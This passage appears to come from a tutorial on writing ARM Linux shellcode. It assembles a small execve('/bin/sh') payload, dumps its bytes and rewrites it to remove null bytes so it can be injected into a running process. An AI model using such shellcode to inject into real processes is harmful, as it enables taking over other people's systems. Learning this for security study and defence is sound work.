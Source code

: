 We can use another GNU utility [objcopy(1)](http://man7.org/linux/man-pages/man1/objcopy.1.html) to extract just these instructions.

```
# objcopy -O binary shell.o shell.bin


```

And with [hexdump(1)](http://man7.org/linux/man-pages/man1/hexdump.1.html) look at the file

```
# hexdump -C shell.bin
00000000  0c 00 8f e2 00 10 a0 e3  00 20 a0 e3 0b 70 a0 e3  |......... ...p..|
00000010  01 00 00 ef 2f 62 69 6e  2f 73 68 00              |..../bin/sh.|
0000001c


```

Because of the way we will be inserting our code into a running process, the **0x00** bytes are going to cause problems.

### Replacing Mov Zero instructions

There are some simple alternatives to loading a zero value into a register that don’t look like this

We could subtract a register from itself

or we could XOR a register with itself

Either of those instructions end up leaving zero in **rN** which is all we want.

So now are assembly **shell.s** looks like this

```
.text
.global _start

_start:
    adr r0, _string
    eor r1, r1, r1
    eor r2, r2, r2
    mov r7, #11
    svc #1

_string:
.asciz  "/bin/sh"


```

And the machine code like this

```
$ as shell.s -o shell.o
$ objdump -d shell.o

shell.o:     file format elf32-littlearm


Disassembly of section .text:

00000000 <_start>:
   0:   e28f000c        add     r0, pc, #12
   4:   e0211001        eor     r1, r1, r1
   8:   e0222002        eor     r2, r2, r2
   c:   e3a0700b        mov     r7, #11
  10:   ef000001        svc     0x00000001
```